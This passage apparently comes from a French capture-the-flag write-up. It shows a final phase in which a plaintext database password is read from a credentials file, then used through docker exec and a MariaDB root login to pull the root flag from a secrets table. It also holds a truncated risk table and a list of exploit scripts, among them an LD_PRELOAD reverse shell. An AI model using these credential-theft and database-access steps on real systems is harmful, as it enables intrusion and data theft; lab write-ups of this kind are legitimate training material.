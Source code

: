 
## 8. Phase 7 : MariaDB et flag root

```bash
cat /root/challenge/db/db.env
PASSWORD=gG4i8NFNkcHBwUpd

docker ps --format "table {{.ID}}\t{{.Image}}\t{{.Names}}"
docker exec -it <ID_MARIADB> bash
mysql -u root -p$PASSWORD
```

```sql
show databases;
use secret;
select * from secrets;  -- ➜ flag root
```

---

## 9. Risques et remédiations prioritaires

| Vulnérabilité | Impact               | Remède immédiat |
| ------------- | -------------------- | --------------- |
| SQLi + LFI    | Exfiltration système | Prépar...       |

---

## 10. Annexe A : scripts

- `hash_calc.py` (HMAC)
- `execute_code.py` (shell via filtre)
- `shell.c` / `shell.so` (reverse‑shell LD\_PRELOAD)

*Tous les scripts sont éprouvés sous Python 3.11 / GCC 13.*

